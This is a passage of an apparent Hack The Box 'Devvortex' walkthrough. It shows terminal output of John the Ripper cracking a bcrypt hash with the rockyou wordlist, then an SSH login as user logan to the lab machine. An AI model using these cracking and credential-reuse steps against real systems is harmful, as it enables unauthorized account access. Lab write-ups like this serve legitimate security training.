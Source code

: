 ```python
┌──(root㉿kali)-[/home/kali/HTB/Devvortex]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*************    (?)     
1g 0:00:00:08 DONE (2024-03-17 11:30) 0.1239g/s 178.4p/s 178.4c/s 178.4C/s lacoste..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

SSH login

```python
┌──(root㉿kali)-[/home/kali/HTB/Devvortex]
└─# ssh logan@10.10.11.242
logan@10.10.11.242's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 17 Mar 2024 03:29:10 PM UTC

  System load:  0.0               Processes:             197
  Usage of /:   67.7% of 4.76GB   Users logged in:       0
  Memory usage: 24%               IPv4 address for eth0: 10.10.11.242
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Mar 17 09:12:48 2024 from 10.10.14.25
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:~$ ls
final  getroot  new  user.txt
logan@devvortex:~$ 
```
